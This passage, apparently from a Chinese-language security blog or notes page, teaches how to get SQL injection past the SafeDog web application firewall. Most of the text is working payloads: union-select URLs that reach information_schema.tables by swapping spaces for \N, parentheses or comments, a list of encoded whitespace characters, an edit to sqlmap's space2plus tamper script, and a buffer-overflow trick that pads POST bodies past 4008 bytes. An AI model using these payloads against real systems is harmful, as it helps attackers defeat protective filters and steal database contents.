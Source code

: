 使用\N去绕过

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,\Nfrom information_schema.tables
```

括号法去绕过

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,From(((information_schema.tables)))
```

也可以组合起来

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4\Nfrom{a`information_schema`.tables}
```

这些都是去掉空格的合法语句,当然如果不拦截<code>\/\*\/或\/\!\*\/</code>的话,也可以尝试这两个

> 提示，安全狗默认不开启对information_schema的拦截，如果开启了，那么就得找支持post传递数据的注入点了，post下不拦截information_schema这个关键词。

补充点
php+mysql环境下支持的空格有：

```TXT
%0a,%0b,%0c,%0d,%20,%09,%a0,/**/
```

其中使用的最多的就是<code>%0a,%0b,%a0,\/\*\*\/</code>，这四个当作空格插入在语句中来扰乱waf检测。
干货分享：使用<code>/^!$asd%2a–=/</code>代替空格即可，找到sqlmap中tamper目录下的space2plus.py文件，将其中代替空格的<code>\/\*\/换成\/^!$asd%2a–=\*\/</code>即可使用sqlmap跑了。

## 缓冲区溢出绕waf

另外也可以对安全狗实行缓冲区溢出绕waf
缓冲区溢出用于对WAF，有不少WAF是C写的，而C语言本身没有缓冲区保护机制，因此如果WAF在处理测试量时超出其缓冲区长度，就会引发bug从而实现绕过
要求是(针对于安全狗而已):
GET类型请求转换成POST类型
Content-Length头长度大于4008
正常参数放置在脏数据后面

![](/OSS/image/20201201/16.png)


